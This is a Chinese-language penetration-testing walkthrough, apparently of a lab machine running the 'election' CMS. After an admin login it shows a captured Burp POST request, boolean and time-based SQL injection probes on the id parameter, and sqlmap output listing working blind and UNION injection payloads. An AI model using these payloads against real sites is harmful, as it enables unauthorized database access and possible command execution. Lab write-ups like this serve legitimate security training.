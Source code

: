 尝试 ssh 登陆，不对。在寻找这个网址上是否有登陆入口，发现 http://192.168.5.30/election/admin/ 输入了上面的用户凭据后，登陆成功。

http://192.168.5.30/election/admin/dashboard.php?_loggedin

看看能否在这个后台管理系统中，找到可以执行命令注入点。

经过查询，发现这个 cms 存在 sql 注入，并且存在通过 sql 执行命令，

在 http://192.168.5.30/election/admin/kandidat.php 中，编辑 Admin，然后使用 bp 获取发送的 post 请求数据包：

```
POST /election/admin/ajax/op_kandidat.php HTTP/1.1
Host: 192.168.5.30
Content-Length: 48
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.5.30
Referer: http://192.168.5.30/election/admin/kandidat.php?_
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: el_mass_adding=false; el_listing_siswa=5; el_listing_guru=5; PHPSESSID=17pih41m52gjmpj9afop42k1nm; el_lang=en-us
Connection: close

aksi=fetch&id=256
```

将请求参数改成下面，返回的内容和上面一样，证明，存在 sql 布尔或时间盲注：

```
aksi=fetch&id=76 and 1=1

aksi=fetch&id=76 and sleep(3)
```

使用 sqlmap，验证下 sql 注入是否可用：

```
sqlmap -r req.txt --level=5 --risk=3 --batch

---
Parameter: id (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: aksi=fetch&id=256 AND 9037=9037

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: aksi=fetch&id=256 AND (SELECT 8042 FROM (SELECT(SLEEP(5)))QPgk)

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: aksi=fetch&id=-3492 UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x71717a7171,0x654e476b75776343527254754861666d72764f616d4f50746648514f4570457956796d68764a5474,0x716a6b6b71),NULL-- -
---
```

